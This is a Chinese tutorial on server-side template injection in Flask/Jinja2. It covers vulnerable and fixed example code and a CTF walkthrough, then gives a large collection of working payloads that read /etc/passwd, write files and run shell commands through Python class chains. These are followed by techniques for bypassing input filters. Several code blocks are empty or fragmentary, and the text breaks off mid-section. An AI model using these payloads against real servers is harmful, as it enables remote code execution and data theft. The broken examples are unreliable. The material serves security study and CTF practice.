# 前置知识

## 模板引擎

首先我们先讲解下什么是模板引擎，为什么需要模板

模板引擎可以让（网站）程序实现界面与数据分离，业务代码与逻辑代码的分离，这大大提升了开发效率，它可以生成特定格式的文档，利用模板引擎来生成前端的 HTML 代码，模板引擎会提供一套生成 HTML 代码的程序，然后只需要获取用户的数据，再放到渲染函数里，接着生成模板 + 用户数据的前端 HTML 页面，最后反馈给浏览器，呈现在用户面前。

模板只是一种提供给程序解析的一种语法，换句话说，模板是用于从数据（变量）到实际的视觉表现（HTML代码）这项工作的一种实现手段，而这种手段不论在前端还是后端都有应用。

在后端渲染里，浏览器会接收到经过服务器计算的之后呈现给用户的HTML代码，此时计算就是服务器后端经过解析服务器端的模板来完成的。

在前端渲染里，是浏览器从服务器拿到信息，再由浏览器前端来解析渲染这段信息变成用户可视化的HTML代码并呈现在用户面前。

举个简单的例子

```html
<html>
<div>{$name}</div>
</html>
```

这里我们希望呈现给用户的是用户自己的名字，但我们并不知道用户的名字是什么，这时候可以用一些用户的信息经过渲染到这个name变量里面，然后呈现给用户

```html
<html>
<div>wanth3f1ag</div>
</html>
```

当然这只是最简单的示例，一般来说，至少会提供分支，迭代。还有一些内置函数。

那什么是服务端模板注入呢

## 什么是ssti

SSTI 就是服务器端模板注入（Server-Side Template Injection）

当前使用的一些框架，比如python的flask，php的tp，java的spring等一般都采用成熟的的MVC的模式，用户的输入先进入Controller控制器，然后根据请求类型和请求的指令发送给对应Model业务模型进行业务逻辑判断，数据库存取，最后把结果返回给View视图层，经过模板渲染展示给用户。

漏洞成因就是服务端接收了用户的恶意输入以后，未经任何处理就将其作为 Web 应用模板内容的一部分，模板引擎在进行目标编译渲染的过程中，执行了用户插入的可以破坏模板的语句，因而可能导致了敏感信息泄露、代码执行、GetShell 等问题。其影响范围主要取决于模版引擎的复杂性。

凡是使用模板的地方都可能会出现 SSTI 的问题，SSTI 不属于任何一种语言，沙盒绕过也不是，沙盒绕过只是由于模板引擎发现了很大的安全漏洞，然后模板引擎设计出来的一种防护机制，不允许使用没有定义或者声明的模块，这适用于所有的模板引擎。



# Flask下的Jinja2模板注入

## 什么是Flask？

Flask 是一个轻量级的 **Python Web 框架**，用于快速构建 Web 应用程序和 API。

而flask默认使用jinja2作为渲染HTML页面的模板引擎，也是ssti漏洞的常见来源

`Jinja2` 是 Python 中一个广泛使用的 **模板引擎**，主要用于动态生成 HTML、XML、配置文件等文本内容。

## Jinja2的语法

Jinja2使用 `{{name}}`结构表示一个变量，它是一种特殊的占位符，告诉模版引擎这个位置的值从渲染模版时使用的数据中获取。

Jinja2 模板同样支持控制语句，像在`  `块中使用if语句

```
air
```

Jinja2同样也有自己的注释语法

```python
{#这里是注释内容#}
```

## FLask模板渲染函数

Flask提供两个模版渲染函数 render_template() 和render_template_string()。

### render_template()

看看函数的定义

```python
def render_template(template_name_or_list, **context):
    """Renders a template from the template folder with the given
    context.

    :param template_name_or_list: the name of the template to be
                                  rendered, or an iterable with template names
                                  the first one existing will be rendered
    :param context: the variables that should be available in the
                    context of the template.
    """
    ctx = _app_ctx_stack.top
    ctx.app.update_template_context(context)
    return _render(
        ctx.app.jinja_env.get_or_select_template(template_name_or_list),
        context,
        ctx.app,
    )
```

第一个参数是可用的模板文件名，第二个是传入模板的变量

### render_template_string()

```python
def render_template_string(source, **context):
    """Renders a template from the given template source string
    with the given context. Template variables will be autoescaped.

    :param source: the source code of the template to be
                   rendered
    :param context: the variables that should be available in the
                    context of the template.
    """
    ctx = _app_ctx_stack.top
    ctx.app.update_template_context(context)
    return _render(ctx.app.jinja_env.from_string(source), context, ctx.app)
```

和上面的render_template不同的是，第一个参数将不再拘束于文件名而是字符串，这意味着我们可以直接将HTML字符串写到这个参数中当成模板文件去进行渲染

```python
from flask import Flask , render_template_string, request
app = Flask(__name__)
@app.route('/')
def index():
    if request.args.get('name'):
        name = request.args.get('name')
        return render_template_string(
        """
        <h1>Hello ,{{name}}!</h1>
        """, name=name)
if __name__ == '__main__':
    app.run(debug=True)
```

接下来我利用vulhub的靶场起漏洞环境进行分析

```
root@dkhkv28T7ijUp1amAVjh:/usr/local/vulhub/flask/ssti# docker-compose up -d
```

目录自行看哈，这是flask下的ssti

## 环境复现

在起环境的时候我们先看一下环境下的app.py漏洞源码

```python
from flask import Flask, request
from jinja2 import Template

app = Flask(__name__)

@app.route("/")
def index():
    name = request.args.get('name', 'guest')

    t = Template("Hello " + name)
    return t.render()

if __name__ == "__main__":
    app.run()
```

`t = Template("hello" + name)` 这行代码表示，将前端输入的name拼接到模板，但是此时没有对name参数进行一定的过滤和检测，那么我们如果传入`?name={{8*8}}`就会返回64的结果，这是因为Jinja2的基础语法`{{}}`会把其中的内容会被当作 Python 代码执行，并将结果渲染到页面上，这也是我们漏洞的成因

## 防御方法

那如果我们事先对模板进行渲染后再传入数据，那么就可以避免模板注入的存在，修复一下上面的漏洞代码

```python
from flask import Flask, request
from jinja2 import Template

app = Flask(__name__)

@app.route("/")
def index():
    name = request.args.get('name', 'guest')

    t = Template("Hello {{n}}")
    return t.render(n=name)

if __name__ == "__main__":
    app.run()
```

return t.render(n=name)这里将name参数作为字符串传给变量n，然后使用静态模板，`"Hello {{n}}"` 是一个固定模板，`{{n}}` 是一个 **参数占位符**，而非直接拼接的用户输入。这样就避免了ssti的存在



此时name的值已经被当成字符串传入n中并进行渲染，而8*8不会被当成python代码去解析执行

讲完了防御方法，现在要讲一下怎么进行ssti注入达到恶意代码执行的目的

## 攻击方法

由于在jinja2中是可以直接访问python的一些对象及其方法的，所以可以通过构造继承链来执行一些操作，比如文件读取，命令执行

但是在讲解攻击方法前，我们需要了解到python中的继承,因为在后面的攻击中用到的就是这种继承关系的不断调用最终达到一个rce的效果

### python的继承

- **Python 类继承的基本概念**

基础语法

```
class 子类(父类): 
    pass  # 子类定义
```

- **继承关系**：子类会继承父类的属性和方法（除非被覆盖）。
- **继承链**：可以多重继承（`class C(A, B):...`），但这里仅讨论单继承（一个父类）。

然后我们可以利用魔术方法去返回想要的类的内容

基础语法

```
类名.__魔术方法__ 或 类名.魔术方法()。
例如__base__返回父类
类名.__base__ 
```

例如我们这里有代码

```python
class A: pass       # 基类（无父类，隐式继承自 `object`）
class B(A): pass    # B 继承 A
class C(B): pass    # C 继承 B
class D(C): pass    # D 继承 C
```

那么此时的继承链的关系是

```
object （Python 所有类的基类）
└── A   （直接继承 object）
    └── B  （继承 A）
        └── C  （继承 B）
            └── D  （继承 C）
```

python类中如果没有显式指定父类，在 Python 3 中默认继承自 `object` 类，那我们如何找到某个类的当前类呢？

我们可以通过`__class__`魔术方法去找到当前实例所属类

```
__class__　　：返回一个实例所属的类
```

```py
class A : pass
class B(A) : pass
class C(B) : pass
class D(C) : pass
c = C()
print(c.__class__)
#<class '__main__.C'>
```

可以看到它返回了一个当前的类为C，那我们尝试找到C类的父类

可以通过`__base__`这个魔术方法来找到当前类的父类

```
__bases__　　：以元组形式返回一个类直接所继承的类（可以理解为直接父类）
__base__　　 ：返回类的直接父类（单继承时）或第一个父类（多继承时）
也就是说如果一个类如果继承了多个类，那么用bases可以返回所有继承的父类
```

```py
class A : pass
class B(A) : pass
class C(B) : pass
class D(C) : pass
c = C()
print(c.__class__.__base__)
#<class '__main__.B'>
```

可以看到它返回了C类的父类B类，如果还需要继续找父类可以继续用`__base__`，但是这样一个一个递进上去的方法有一些麻烦，所以我们可以使用`__mro__`魔术方法来一步到位看到类的所有父类

```
__mro__       ：返回一个元组，按顺序列出类的继承链（从当前类到 object）。
```

```py
class A : pass
class B(A) : pass
class C(B,A) : pass
class D(C,A) : pass
c = C()
print(c.__class__.__mro__)
#(<class '__main__.C'>, <class '__main__.B'>, <class '__main__.A'>, <class 'object'>)
```

可以看到这里返回了继承链

上面的知识都是基础知识，有利于我们后面对payload的讲解

### SSTI模板注入

通常我们进行模板注入的时候都会用到object类，因为`object` 是 Python 中**所有类的基类**（直接或间接继承）。

接下来我们通过`__subclasses__()`去返回object的所有子类

`__subclasses__()`和`__subclasses__`的区别是什么呢？

前者是实际调用了该方法，而后者只是返回了方法本身的引用

```
__subclasses__()　　：以列表返回类的子类
```

这里我们需要用到A类啊这样更迅速一点，我们可以把这些魔术方法的使用当成是一种指针的指向，例如

```
c.__class__.__base__
此时指针是指向B类的，如果我们去返回子类的话只是会返回B类的子类也就是C类
[<class '__main__.C'>]
如果需要返回object的子类的话，我们需要调整指针指向object类，再使用魔术方法去返回子类
```

所以

```py
class A : pass
class B(A) : pass
class C(B) : pass
class D(C) : pass
a = A()
print(a.__class__.__base__.__subclasses__())
#返回所有object的子类
```



当然也可以根据`__mro__`返回的是元组的形式去调用object类并返回object的子类

```
print(c.__class__.__mro__[3])#<class 'object'>
```

那么可以看到这里有很多的子类，我们最终的ssti注入的目的就是利用这些子类去进行RCE达到攻击的效果，接下来就是如何利用子类去攻击了，我们先拿一道ctfshow的web361做一下



然后我们用`__class__`魔术方法查看当前类

```
?name={{"".__class__}}#<class 'str'>
?name={{().__class__}}#<class 'tuple'>
```

在 Python 中，**`__class__` 是一个魔术方法**，用于获取 **对象的类类型**



和上面不同的是，我们现在的这些都是内置类，但是最终的父类还是object，我们只需要一个途径能获取到object类就行

```
?name={{().__class__.__base__}}#<class 'object'>
```

这里的话就成功拿到object父类了，接下来就是拿所有内置的子类

```
?name={{().__class__.__base__.__subclasses__()}}
```



然后我们可以用哪些子类去进行攻击呢？

例如这里我们用`<class 'os._wrap_close'>`类，这是python的内置类

- **`os` 是 Python 标准库**（内置模块），而 `_wrap_close` 是 `os` 模块中的一个 **内部辅助类**（名字以 `_` 开头，表示“内部使用”）。

我们看看这个类有哪些属性和方法

```
>>> import os
>>> print(os._wrap_close.__dict__)
{'__module__': 'os', '__init__': <function _wrap_close.__init__ at 0x000001F51809F060>, 'close': <function _wrap_close.close at 0x000001F51809F100>, '__enter__': <function _wrap_close.__enter__ at 0x000001F51809F1A0>, '__exit__': <function _wrap_close.__exit__ at 0x000001F51809F240>, '__getattr__': <function _wrap_close.__getattr__ at 0x000001F51809F2E0>, '__iter__': <function _wrap_close.__iter__ at 0x000001F51809F380>, '__dict__': <attribute '__dict__' of '_wrap_close' objects>, '__weakref__': <attribute '__weakref__' of '_wrap_close' objects>, '__doc__': None}
```

整理一下

```python
{
    '__module__': 'os',            # 类所属的模块
    '__init__': <function ...>,    # 初始化方法
    'close': <function ...>,       # 关闭文件描述符的方法
    '__enter__': <function ...>,   # 实现上下文管理器（with语句）
    '__exit__': <function ...>,    # 实现上下文管理器（with语句）
    '__getattr__': <function ...>, # 动态获取属性
    '__iter__': <function ...>,    # 实现迭代器协议
    '__dict__': <attribute ...>,   # 类的属性字典
    '__weakref__': <attribute ...>,# 弱引用支持
    '__doc__': None                类的文档字符串（此处为None）
}
```

然后我们需要用到这个类中的`__init__`方法去初始化这个类，这是 **构造函数**，在创建 `_wrap_close` 实例时调用。

```
?name={{().__class__.__base__.__subclasses__()[132]}}#<class 'os._wrap_close'>
?name={{().__class__.__base__.__subclasses__()[132].__init__}}#<function _wrap_close.__init__ at 0x7f1b1c0f35e0>
```

然后会通过``.__globals__` 获取 `os` 模块的全局变量`

```
__globals__ 是 Python 中的一个 特殊属性，仅存在于函数对象（Function Objects）里，用于获取该函数所在的全局命名空间（Global Namespace） 的所有变量。它本质上是一个 字典，存储了该函数所在模块的所有全局变量、导入的模块、函数等。
```



然后可以看到导入的os模块下有没有可以执行命令的函数方法

我们执行一下shell命令，这里执行一下whoami，这里一定要记得用.read()来读取一下，因为popen方法返回的是一个与子进程通信的对象，为了从该对象中获取子进程的输出，因此需要使用read()方法来读取子进程的输出

```
?name={{().__class__.__base__.__subclasses__()[132].__init__.__globals__['popen']('whoami').read()}}#root
```

到这里就大致讲完了攻击思路，我们就先总结一下常用的魔术方法

## 魔术方法总结

```
__class__　　：返回一个实例所属的类
__bases__　　：以元组形式返回一个类直接所继承的类（可以理解为直接父类）
__base__　　 ：返回类的直接父类（单继承时）或第一个父类（多继承时）
__mro__       ：返回一个元组，按顺序列出类的继承链（从当前类到 object）。
__subclasses__()  ：获取当前类的所有子类
__init__  ：类的初始化方法
__globals__  ：对包含(保存)函数全局变量的字典的引用
__builtins__	：可用于查看当前所有导入的内建函数
__import__()	：该方法用于动态加载类和函数 。类似于import
```

所以常规的做法就是获取到父类object，然后从父类object的子类中找到可用类和方法去进行利用

## payload积累

### 读写文件

#操作文件类，`<type ‘file’>`(python2中)

1.读取文件

```
''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()
''.__class__.__mro__[2].__subclasses__()[40]('文件路径').read()
```



2.写文件

```
''.__class__.__mro__[2].__subclasses__()[40]('文件路径', 'w').write('文件内容')
```



**python3已经移除了file。所以利用file子类文件读取只能在python2中用。在python3中可以用`<class '_frozen_importlib_external.FileLoader'>` 这个类去读取文件。**

```python
{{().__class__.__bases__[0].__subclasses__()[79]["get_data"](0, "/etc/passwd")}}
```

通常我们需要找到一个重载过的`__init__`类，这里放一个脚本

```python
l=len([].__class__.__mro__[1].__subclasses__())

for i in range(l):

    if 'wrapper' not in str([].__class__.__mro__[1].__subclasses__()[i].__init__):

        print(i,[].__class__.__mro__[1].__subclasses__()[i])
```

### 内建函数 eval 执行命令

可以遍历一下所有类去寻找带有eval函数的类

```python
l=len([].__class__.__mro__[1].__subclasses__())

for i in range(l):

    if 'wrapper' not in str([].__class__.__mro__[1].__subclasses__()[i].__init__):
        if 'eval' in str([].__class__.__mro__[1].__subclasses__()[i].__init__.__globals__['__builtins__']):
            print(i,[].__class__.__mro__[1].__subclasses__()[i])
```

列举几个含有eval函数的类：

- warnings.catch_warnings
- WarningMessage
- codecs.IncrementalEncoder
- codecs.IncrementalDecoder
- codecs.StreamReaderWriter
- os._wrap_close
- reprlib.Repr
- weakref.finalize

所以有poc

- 利用`<class 'os._wrap_close'>`类执行eval

```
[].__class__.__mro__[1].__subclasses__()[i].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("whoami").read()')
```

可以看到这些也是通过eval去调用os模块，那是否能直接调用os模块呢？当然是可以的

### os模块执行命令

继续写脚本找找环境中含有os模块的类的索引

```python
l=len([].__class__.__mro__[1].__subclasses__())

for i in range(l):

    if 'wrapper' not in str([].__class__.__mro__[1].__subclasses__()[i].__init__):
        if 'os' in str([].__class__.__mro__[1].__subclasses__()[i].__init__.__globals__):
            print(i,[].__class__.__mro__[1].__subclasses__()[i])
```

Python的 os 模块中有`system`和`popen`这两个函数可用来执行命令。其中**system()函数执行命令是没有回显的**，我们可以使用system()函数配合curl外带数据；**popen()函数执行命令有回显**。所以比较常用的函数为popen()函数，而当popen()函数被过滤掉时，可以使用system()函数代替。

然后我们随便找一个类去调用popen方法执行命令就行

- #使用`<class 'os._wrap_close'>`类的popen命令

```
().__class__.__base__.__subclasses__()[132].__init__.__globals__['popen']('whoami').read()
```

### popen函数执行命令

那我们是否可以找到一个含有popen函数的类呢?

写个脚本遍历一下

```python
l=len([].__class__.__mro__[1].__subclasses__())

for i in range(l):

    if 'wrapper' not in str([].__class__.__mro__[1].__subclasses__()[i].__init__):
        if 'popen' in str([].__class__.__mro__[1].__subclasses__()[i].__init__.__globals__):
            print(i,[].__class__.__mro__[1].__subclasses__()[i])
```

然后我们构造poc

```python
l=len([].__class__.__mro__[1].__subclasses__())

for i in range(l):

    if 'wrapper' not in str([].__class__.__mro__[1].__subclasses__()[i].__init__):
        if 'popen' in str([].__class__.__mro__[1].__subclasses__()[i].__init__.__globals__):
            print(i,[].__class__.__mro__[1].__subclasses__()[i])
            print([].__class__.__mro__[1].__subclasses__()[i].__init__.__globals__['popen']('whoami').read())
"""
156 <class 'os._wrap_close'>
wanth3f1ag\23232

157 <class 'os._AddedDllDirectory'>
wanth3f1ag\23232

"""
```

### importlib类执行命令

Python 中存在 `<class '_frozen_importlib.BuiltinImporter'>` 类，目的就是提供 Python 中 import 语句的实现（以及 `__import__` 函数）。那么我们可以直接利用该类中的load_module将os模块导入，从而使用 os 模块执行命令。

```python
l=len([].__class__.__mro__[1].__subclasses__())

for i in range(l):
    if '_frozen_importlib.BuiltinImporter' in str([].__class__.__mro__[1].__subclasses__()[i]):
        print(i,[].__class__.__mro__[1].__subclasses__()[i])

```

找到索引后导入os模块执行命令

```python
[].__class__.__mro__[1].__subclasses__()[120].load_module("os").popen("whoami").read()
```

### linecache 函数执行命令

linecache 这个函数可用于读取任意一个文件的某一行，而这个函数中也引入了 os 模块，所以我们也可以利用这个 linecache 函数去执行命令。

```python
l=len([].__class__.__mro__[1].__subclasses__())

for i in range(l):

    if 'wrapper' not in str([].__class__.__mro__[1].__subclasses__()[i].__init__):
        if 'linecache' in str([].__class__.__mro__[1].__subclasses__()[i].__init__.__globals__):
            print(i,[].__class__.__mro__[1].__subclasses__()[i])
            
"""
230 <class 'traceback.FrameSummary'>
231 <class 'traceback._ExceptionPrintContext'>
232 <class 'traceback.TracebackException'>
377 <class 'inspect.BlockFinder'>
380 <class 'inspect.Parameter'>
381 <class 'inspect.BoundArguments'>
382 <class 'inspect.Signature'>
"""
```

```
{{[].__class__.__base__.__subclasses__()[168].__init__.__globals__['linecache']['os'].popen('ls /').read()}}

{{[].__class__.__base__.__subclasses__()[168].__init__.__globals__.linecache.os.popen('ls /').read()}}
```

### 利用lipsum方法

```python
{{lipsum.__globals__['os'].popen('whoami').read()}}

{{lipsum.__globals__['__builtins__']['eval']("__import__('os').popen('whoami').read()")}}

{{lipsum.__globals__.__builtins__.__import__('os').popen('whoami').read()}}
```

`lipsum` 是一个 **可调用对象**，

它的 **`__globals__`** 属性里能拿到 Python 的全局命名空间，

全局命名空间中包含 `__builtins__`，

从 `__builtins__` 可以进一步拿到 `__import__`、`open`、`eval` 等危险函数。

### 利用jinja2.utils.joiner类执行命令

```python
{{joiner.__init__.__globals__.os.popen('whoami').read()}}
{{joiner.__init__.__globals__['__builtins__']['eval']("__import__('os').popen('whoami').read()")}}
{{joiner.__init__.__globals__.__builtins__.__import__('os').popen('whoami').read()}}
```

joiner是jinja2.utils模块下的一个类，通过`__init__`初始化后的`__globals__`属性可以拿到Python的全局命名空间，里面包含os模块，可调用popen函数执行命令，或者用`__builtins__`

### 利用flask.config类执行命令

```python
{{config.__init__.__globals__.os.popen('whoami').read()}}
{{config.__init__.__globals__['__builtins__']['eval']("__import__('os').popen('whoami').read()")}}
{{config.__init__.__globals__.__builtins__.__import__('os').popen('whoami').read()}}
```

### 利用jinja2.utils.cycler类执行命令

```python
{{cycler.__init__.__globals__.os.popen('whoami').read()}}
{{cycler.__init__.__globals__['__builtins__']['eval']("__import__('os').popen('whoami').read()")}}
{{cycler.__init__.__globals__.__builtins__.__import__('os').popen('whoami').read()}}
```


## 一些绕过手法

### 绕过中括号过滤

1.使用`__getitem__()`去进行绕过，例如

```
[132]
换成
__getitem__(132)
```

2.也可以用`.pop()`去绕过

```
[132]
.pop(132)
```

### 绕过单双引号过滤

1.使用request旁路注入去进行绕过

通过request内置对象去得到请求的信息，从而传递参数

```
#GET方式，用request.args.参数 代替，然后用get传参
['popen']
可以换成
[request.args.a]然后get传参a=popen

#POAT方式，用request.values.参数 代替，然后用post传参
['popen']
可以换成
[request.values.a]然后post传参a=popen

#cookie方式，用request.cookies.参数 代替，然后用cookie传参
['popen']
可以换成
[request.cookies.a]然后cookie传参a=popen
```

2.如果过滤了args或者不想用request内置类的话，还可以用chr函数拼接字符去绕过

找找带有chr函数的索引

```python
l=len([].__class__.__mro__[1].__subclasses__())

for i in range(l):

    if 'wrapper' not in str([].__class__.__mro__[1].__subclasses__()[i].__init__):
        if 'chr' in str([].__class__.__mro__[1].__subclasses__()[i].__init__.__globals__):
            print(i,[].__class__.__mro__[1].__subclasses__()[i])
            print([].__class__.__mro__[1].__subclasses__()[i].__init__.__globals__['__builtins__']['chr'](97))
```

poc就是

```
#第59个子类（通常是 warnings.catch_warnings），获取python内置chr()函数
{{().__class__.__bases__.__getitem__(0).__subclasses__()[59](chr(47)%2bchr(101)%2bchr(116)%2bchr(99)%2bchr(47)%2bchr(112)%2bchr(97)%2bchr(115)%2bchr(115)%2bchr(119)%2bchr(100)).read()}}#这里是构造
这里%2b为+号，在发送请求的时候需要编码成%2b，不然会被当成空格处理
```

3.手动构造char(可用于上面的chr被过滤的情况)

如果目标系统 **限制了 `chr` 但允许变量赋值**，攻击者可能用 **模板语法动态构造 `char`**：

```

{{ char(99) }}  # 返回 'c'
```

### 绕过下划线过滤

1.可以用request类去进行绕过

2.基于小数点的绕过，可以用编码去绕过，例如16进制编码或者unicode编码，或者也可以用base64编码绕过

```
"".__class__
""['\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f']
或者
""|attr('\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f')
```

### 绕过小数点过滤

1.用`|attr`过滤器进行绕过

`|attr()`为jinja2原生函数，是一个过滤器，它只查找属性获取并返回对象的属性的值

```python
foo|attr("bar")   等同于   foo["bar"]
```

```
"".__class__
等价于
""|attr("__class__")
```

`|attr()` 配合其他姿势可同时绕过双下划线 `__` 、引号、点 `.` 和 `[` 等

2.**用 `[]` 替代 `.`**

```
"".__class__
""["__class__"]
```

### 绕过花括号过滤

- 用``去进行绕过

```

```

- 用``结构语句绕过

```

    
        {{ c.__init__.__globals__['os'].system('id') }}
    

```

这里if条件成立则会输出1，只是用来执行结果的，最终不影响执行结果(通常还可以用于无回显的时候打盲注)

### 绕过关键字过滤

- 字符串拼接(“+”)绕过

```
{{()['__cla'+'ss__'].__bases__[0].__subclasses__()[40].__init__.__globals__['__builtins__']['ev'+'al']("__im"+"port__('o'+'s').po""pen('whoami').read()")}} 
```

- join拼接字符

```
{{[].__class__.__base__.__subclasses__()[40]("fla".join("/g")).read()}}
```

- jinja中的`~`拼接

```
{{()[‘__class__’]}}等价于{{()[a~b]}}
```

- 用单双引号，反引号绕过关键字

```
